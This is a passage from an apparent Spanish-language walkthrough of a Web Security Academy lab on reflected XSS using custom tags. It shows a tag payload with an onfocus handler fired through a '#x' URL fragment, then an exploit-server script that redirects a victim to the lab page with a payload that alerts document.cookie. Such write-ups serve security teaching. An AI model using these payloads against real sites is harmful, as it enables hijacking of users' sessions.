Entonces buscamos un payload custom, y obtenemos el siguiente:

```
<xss id=x tabindex=1 onfocus=alert(1)>
```

Pero si lo colocamos en el navegador, este no genera ningun mensaje de alert, así que lo lo que haremos será llamar a la etiqueta que escribimos, y esto podemos hacer haciendo referencia al id de la etiqueta el cual es **x**, entonces en la url al final agregamos los caracteres **#x** para hacer el llamado a la etiqueta con id **x**, que justamente es nuestor payload.

 ```
<xss id=x tabindex=1 onfocus=alert(1)>#x
 ```

![](img25.png)

Entonces ahora vamos a el **exploit server** y escribimos el siguiente payload.

```html
<script>
    document.location='https://ace51ff81f542d2f800b9fba009400af.web-security-academy.net/?search=<xss id=x tabindex=1 onfocus=alert(document.cookie)>#x';
</script>
```

Entonces Guardamos y enviamos a la victima.

![](img26.png)
